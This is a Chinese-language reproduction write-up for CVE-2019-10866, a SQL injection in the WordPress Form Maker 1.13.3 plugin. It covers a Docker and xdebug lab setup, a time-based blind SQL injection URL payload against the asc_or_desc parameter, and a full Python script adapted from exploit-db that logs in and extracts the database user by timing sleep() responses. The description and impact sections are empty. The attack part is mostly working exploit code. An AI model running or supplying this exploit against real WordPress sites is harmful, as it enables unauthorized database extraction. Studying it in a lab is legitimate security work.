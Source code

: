 （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入
===============================================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

    FROM medicean/vulapps:base_lamp_php7

    RUN pecl install xdebug

    COPY php.ini /etc/php/7.0/apache2/
    COPY php.ini /etc/php/7.0/cli/

docker-compose文件:

    version: '3'
    services:
      lamp-php7:
        build: .
        ports:
          - "80:80"
        volumes:
          - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
          - "/Users/mengchen/Security/Code Audit/tmp:/tmp"

php.ini中xdebug的配置

    [xdebug]
    zend_extension="/usr/lib/php/20151012/xdebug.so"
    xdebug.remote_enable=1
    xdebug.remote_host=10.254.254.254
    xdebug.remote_port=9000
    xdebug.remote_connect_back=0
    xdebug.profiler_enable=0
    xdebug.idekey=PHPSTORM
    xdebug.remote_log="/tmp/xdebug.log"

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

    sudo ifconfig lo0 alias 10.254.254.254

PHPStorm也要配置好相对路径:

![](./resource/(CVE-2019-10866)WordPressPlugin-FormMaker1.13.3sql注入/media/rId25.png)

插件下载地址:

    https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

    http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b

Python脚本，修改自exploit-db

    #coding:utf-8
    import requests
    import time

    vul_url = "http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc="
    S = requests.Session()
    S.headers.update({"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3", "Referer": "http://127.0.0.1/wp-login.php?loggedout=true", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"})
    length = 0
    TIME = 3
    username = "admin"
    password = "admin"

    def login(username, password):
        data = {
            "log": "admin", 
            "pwd": "admin", 
            "wp-submit": "\xe7\x99\xbb\xe5\xbd\x95", 
            "redirect_to": "http://127.0.0.1/wp-admin/", 
            "testcookie": "1"
            }
        r = S.post('http://127.0.0.1/wp-login.php', data=data, cookies = {"wordpress_test_cookie": "WP+Cookie+check"})


    def attack():
        flag = True
        data = ""
        length = 1
        while flag:
            flag = False
            tmp_ascii = 0
            for ascii in range(32, 127):
                tmp_ascii = ascii
                start_time = time.time()
                payload = "{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b".format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)
                #print(payload)
                r = S.get(payload)
                tmp = time.time() - start_time
                if tmp >= TIME:
                    flag = True
                    break
            if flag:
                data += chr(tmp_ascii)
                length += 1
            print(data)
    login(username, password)
    attack()

image
